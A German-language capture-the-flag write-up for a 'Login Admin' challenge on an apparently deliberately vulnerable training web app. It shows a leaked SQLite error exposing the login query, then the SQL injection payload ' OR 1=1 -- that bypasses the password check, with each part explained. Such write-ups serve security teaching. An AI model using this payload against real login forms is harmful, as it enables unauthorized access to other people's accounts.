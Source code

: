 # Login Admin

***2 Star Challenge 1/23***

Log in with the administrator's user account.

---

## Step 1
Richtig einloggen und den Request & Response ansehen.

![login_try_1.png](../img/login_try_1.png)

## Step 2
Falsch einloggen und den Request & Response ansehen.

Mit absicht fehlermeldungen verurschen um daraus Informationen beziehen zu können.

![login_try_2.png](../img/login_try_2.png)
![login_try_2_response.png](../img/login_try_2_response.png)

## Step 3
Informationen auswerten.
- Wo geht der Request hin?
- Was wird alles mit geschickt?
- Was kommt zurück?
- Framework?
- Versionen?
- Datenbank?

````json
{
  "error": {
    "message": "SQLITE_ERROR: unrecognized token: \"3590cb8af0bbb9e78c343b52b93773c9\"",
    "parent":{
      "sql": "SELECT * FROM Users WHERE email = ''' AND password = '3590cb8af0bbb9e78c343b52b93773c9' AND deletedAt IS NULL"
    }
  }
}
````

## Step 4
SQL Injection vorbereiten.

Mit der eingabe von `' OR 1=1 --` wird unser payload an die datenbank so aussehen

````sqlite
"SELECT * FROM Users WHERE email = '' OR 1=1 --' AND password = '3590cb8af0bbb9e78c343b52b93773c9' AND deletedAt IS NULL"
````
und uns als den ersten treffen in der datenbank einloggen.

Erstes Hochkomma beenden sonst kommt ein syntax fehler und weiter Logik anhängen `OR 1=1` ergibt `TRUE` und `--` leitet in sqlite ein Kommetar ein, wodurch alle nachfolgenden befehle auskommentiert werden, wie die Password eingabe.

- `'`: Text Eingabe Schließen
- `OR 1=1` Sichers True erzeugen
- `--` Alles weiter auskommentieren

![sql-injection.png](../img/sql-injection.png)

---

:::success Challenge completed!
You successfully solved a challenge: Login Admin (Log in with the administrator's user account.)
:::

